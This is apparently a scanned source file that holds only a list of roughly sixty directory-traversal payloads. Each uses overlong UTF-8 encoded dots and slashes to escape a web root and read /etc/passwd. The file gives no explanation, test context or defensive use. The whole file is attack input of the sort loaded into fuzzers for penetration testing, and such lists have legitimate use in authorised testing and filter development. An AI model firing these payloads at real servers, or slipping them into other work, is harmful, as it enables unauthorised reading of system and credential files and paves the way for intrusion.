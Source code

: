 ```llvm
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd
%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd
%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e/%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%afetc/passwd
%c0%2e%c0%2e%c0%afetc%c0%afpasswd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc%c0%afpasswd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc%c0%afpasswd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc%c0%afpasswd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc/passwd
%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%af%c0%2e%c0%2e%c0%afetc%c0%afpasswd
%c0%2e%c0%2e%c0%5cetc/passwd
%c0%2e%c0%2e%c0%5cetc%c0%5cpasswd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc%c0%5cpasswd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc%c0%5cpasswd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc%c0%5cpasswd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc/passwd
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cetc%c0%5cpasswd
%c0%2e%c0%2e%c0%2fetc/passwd
%c0%2e%c0%2e%c0%2fetc%c0%2fpasswd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc%c0%2fpasswd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc%c0%2fpasswd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc%c0%2fpasswd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e/etc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc/passwd
%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2f%c0%2e%c0%2e%c0%2fetc%c0%2fpasswd
```